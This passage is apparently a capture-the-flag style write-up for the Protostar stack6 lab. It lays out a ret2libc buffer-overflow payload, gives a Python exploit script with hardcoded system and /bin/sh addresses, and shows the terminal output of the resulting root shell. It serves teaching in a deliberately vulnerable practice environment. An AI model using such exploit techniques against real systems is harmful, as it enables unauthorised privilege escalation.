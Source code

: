 The address checks out! Finally, we got everything we need, so let's get our exploit.

Here is a payload layout to visualize:

```
[ 72 bytes padding ]
[ 4 bytes to overwrite ret ]
[ 4 bytes to overwrite saved EBP ]
[ 4 bytes to return to system ]
[ 4 bytes of a dummy return address (executes after system call, but needed) ]
[ 4 bytes that point to /bin/sh ]
```

Here is our exploit script:

```python
import struct

padding = "A" * 76 # 4 extra bytes for the extra variable
ebp = "LLLL"
system = struct.pack("I", 0xb7ecffb0)
ret = "AAAA"
bin_sh = struct.pack("I", 0xb7fb63bf)

print(padding + ebp + system + ret + bin_sh)
```

Result:

```bash
user@protostar:/opt/protostar/bin$ (python /tmp/exploit.py; cat) | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAAAAAAALLLL����AAAA�c��
whoami
root
id 
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
echo "get pwned ;)"
get pwned ;)
pwd
/opt/protostar/bin
ls
final0  final2   format1  format3  heap0  heap2  net0  net2  net4    stack1  stack3  stack5  stack7
final1  format0  format2  format4  heap1  heap3  net1  net3  stack0  stack2  stack4  stack6
```
 
## Resources

* [C Code](https://exploit.education/protstar/stack-six/)
* [LiveOverflow's Solution](https://www.youtube.com/watch?v=m17mV24TgwY&ab_channel=LiveOverflow)
